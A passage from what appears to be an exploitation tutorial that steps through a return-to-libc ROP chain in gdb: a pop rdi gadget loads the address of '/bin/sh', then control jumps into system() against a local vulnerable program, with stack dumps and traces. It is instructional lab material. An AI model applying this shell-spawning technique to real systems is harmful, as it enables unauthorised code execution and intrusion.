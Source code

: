 > The '0x0a at the end is the newline character from Python's print.

In gdb, break at the `ret` instruction of the cp function, and run the program with the file as input:

```bash
(gdb) disas cp
...
   0x000000000040116e <+56>:    retq
(gdb) b *cp+56
(gdb) r < pl.bin
```

The stack now looks like this:

```
(gdb) x/32xb $rsp
0x7fffffffd658: 0x03    0x12    0x40    0x00    0x00    0x00    0x00    0x00
0x7fffffffd660: 0x19    0xf5    0xf6    0xf7    0xff    0x7f    0x00    0x00
0x7fffffffd668: 0x30    0x3e    0xe2    0xf7    0xff    0x7f    0x00    0x00
0x7fffffffd670: 0x19    0xf5    0xf6    0xf7    0xff    0x7f    0x00    0x00
```

On top is our gadget's address, followed by the address of the string, system and exit.

Let's move along and see what happens.

```bash
(gdb) disp/i $pc
1: x/i $pc
=> 0x40116e <cp+56>:    retq
(gdb) si
0x0000000000401203 in __libc_csu_init ()
1: x/i $pc
=> 0x401203 <__libc_csu_init+99>:       pop    %rdi
(gdb) si
0x0000000000401204 in __libc_csu_init ()
1: x/i $pc
=> 0x401204 <__libc_csu_init+100>:      retq
```

> We use `display/i $pc` to diplay the next instruction every time the program stops.

Let's confirm that the address of the string is in `rdi` and continue:

```bash
(gdb) x/s $rdi
0x7ffff7f6f519: "/bin/sh"
(gdb) si
0x00007ffff7e2ec30 in system () from /lib64/libc.so.6
1: x/i $pc
=> 0x7ffff7e2ec30 <system>:     endbr64
```

We are now in `system()`! We will continue to see if a shell pops.

```bash
(gdb) c
Continuing.
[Detaching after fork from child process 11941]
[Inferior 1 (process 11934) exited with code 02]
```
